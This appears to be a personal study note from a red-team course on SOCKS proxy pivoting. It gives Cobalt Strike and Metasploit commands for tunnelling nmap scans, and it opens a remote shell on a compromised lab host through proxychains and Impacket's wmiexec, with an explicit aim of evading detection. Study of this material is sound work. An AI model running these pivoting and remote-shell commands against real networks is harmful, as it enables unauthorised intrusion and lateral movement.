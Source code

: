 ```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[SOCKS Proxies]]  
___

## Description:  

### CobaltStrike SOCKS proxy

A SOCKS (Secure Socket) Proxy exchanges network packets between a client and a server via a "proxy".

This is particularly helpful when we want to leverage Linux-based toolsets such as [Impacket](https://github.com/SecureAuthCorp/impacket).

 It also carries additional OPSEC advantages - since we're not pushing offensive tooling onto the target or even executing any code on a compromised endpoint, it can shrink our footprint for detection.

To start a socks proxy, use `socks [port]` on a Beacon.

```
beacon> socks 1080
[+] started SOCKS4a server on: 1080
```
This will bind port 1080 on the Team Server.

Open `/etc/proxychains.conf` and change `socks4 127.0.0.1 9050`. Change `9050` to `1080` (or whichever port you're using).


To tunnel a tool through proxychains, it's as simple as `proxychains [tool] [tool args]`.

Before running commands run `sleep 0` in beacon to set it to interactive mode. After you run command set it back to `sleep 15`.

```
beacon> sleep 0
```


 ICMP and SYN scans cannot be tunnelled, so we must disable ping discovery (`-Pn`) and specify TCP scans (`-sT`) for nmap to work.

```
root@kali:~# proxychains -q nmap -n -Pn -sT -p445,3389,5985 10.10.17.25
```

Interactive shell through proxychains

```
root@kali:~# proxychains python3 /usr/local/bin/wmiexec.py DEV/bfarmer@10.10.17.25
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.17.25:445-<><>-OK
[*] SMBv3.0 dialect used
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.17.25:135-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.17.25:49682-<><>-OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands

C:\>whoami
dev\bfarmer

C:\>hostname
srv-1

```


### Metasploit Socks Proxy

^8b8d22

Setup other routes first:
[[Metasploit#^8f3ca2]]

```
msf5 post(multi/manage/autoroute) > use auxiliary/server/socks_proxy
msf5 auxiliary(server/socks4a) > show options
msf5 auxiliary(server/socks4a) > set SRVHOST 127.0.0.1
msf5 auxiliary(server/socks4a) > exploit -j
```

We can now update our ProxyChains configuration file (/etc/proxychains.conf) 
`kali@kali:~$ sudo echo "socks4 127.0.0.1 1080" >> /etc/proxychains.conf`
check settings, it might be socks5

Now run commands:
`kali@kali:~$ sudo proxychains rdesktop 192.168.1.110`


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (09:50 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
